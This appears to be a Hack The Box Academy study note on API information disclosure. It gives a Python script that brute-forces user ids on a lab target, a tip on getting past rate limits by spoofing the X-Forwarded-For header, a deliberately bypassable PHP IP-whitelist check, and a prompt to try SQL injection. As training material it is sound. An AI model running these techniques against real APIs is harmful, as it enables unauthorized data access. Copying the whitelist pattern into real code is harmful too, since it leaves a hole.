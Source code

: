 ```shell-session
smoothment@htb[/htb]$ python3 brute_api.py http://<TARGET IP>:3003
Number found! 1
[{"id":"1","username":"admin","position":"1"}]
Number found! 2
[{"id":"2","username":"HTB-User-John","position":"2"}]
...
```

Now you can proceed to the end of this section and answer the first question!

**TIP**: If there is a rate limit in place, you can always try to bypass it through headers such as X-Forwarded-For, X-Forwarded-IP, etc., or use proxies. These headers have to be compared with an IP most of the time. See an example below.


```php
<?php
$whitelist = array("127.0.0.1", "1.3.3.7");
if(!(in_array($_SERVER['HTTP_X_FORWARDED_FOR'], $whitelist)))
{
    header("HTTP/1.1 401 Unauthorized");
}
else
{
  print("Hello Developer team! As you know, we are working on building a way for users to see website pages in real pages but behind our own Proxies!");
}
```

The issue here is that the code compares the _HTTP_X_FORWARDED_FOR_ header to the possible _whitelist_ values, and if the _HTTP_X_FORWARDED_FOR_ is not set or is set without one of the IPs from the array, it'll give a 401. A possible bypass could be setting the _X-Forwarded-For_ header and the value to one of the IPs from the array.

---

## Information Disclosure through SQL Injection

SQL injection vulnerabilities can affect APIs as well. That _id_ parameter looks interesting. Try submitting classic SQLi payloads and answer the second question.

# Questions
---

![](Pasted%20image%2020250219154858.png)

Let's use this script to answer the first question:

```python
import requests, sys

def brute():
    try:
        value = range(10000)
        for val in value:
            url = sys.argv[1]
            r = requests.get(url + '/?id='+str(val))
            if "position" in r.text:
                print("Number found!", val)
                print(r.text)
    except IndexError:
        print("Enter a URL E.g.: http://<TARGET IP>:3003/")

brute()
```
